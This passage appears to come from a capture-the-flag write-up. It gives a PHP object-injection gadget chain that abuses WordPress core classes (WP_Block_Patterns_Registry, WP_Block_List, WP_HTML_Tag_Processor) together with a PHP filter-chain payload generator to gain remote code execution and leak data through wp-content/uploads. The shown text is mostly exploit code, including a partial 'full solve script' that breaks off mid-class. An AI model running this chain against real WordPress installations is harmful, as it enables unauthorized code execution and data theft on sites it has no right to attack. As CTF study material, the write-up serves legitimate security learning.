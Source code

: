 ```php
    public $html = 'huhu';
    public $parsing_namespace = 'html';
    public $attributes = array();
    public $classname_updates = [1];
    public function __construct($attributes){
        $this->attributes = $attributes;
    }
}

class SecureTableGenerator{
    public function __construct($tag){
        $this->allowedTags = array($tag);
    } 
}

$b = array("blockName" => "hehe");
$c = new WP_Block_Patterns_Registry();
$a = new WP_Block_List(array("class" => $b),"2",$c);
$d = new WP_HTML_Tag_Processor($a);
$e = new SecureTableGenerator($d);
```

From now, we can achieve RCE and leak information by writing it into the `wp-content/uploads` directory.

![image](https://hackmd.io/_uploads/rkROcTNtee.png)


Full solve script:

* [php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)
* chain.php

```php
<?php

class WP_Block_Patterns_Registry{
    
    public function __construct($payload) {
		$this -> registered_patterns = array('hehe' => array('filePath' => $payload));
	}
}

class WP_Block_List{
    public function __construct( $blocks, $available_context = array(), $registry = null ) {
		$this->blocks            = $blocks;
		$this->available_context = $available_context;
		$this->registry          = $registry;
	}
}

class WP_HTML_Tag_Processor{
    public $html = 'huhu';
    public $parsing_namespace = 'html';
    public $attributes = array();
    public $classname_updates = [1];
    public function __construct($attributes){
        $this->attributes = $attributes;
    }
}

class SecureTableGenerator{
    public function __construct($tag){
        $this->allowedTags = array($tag);
```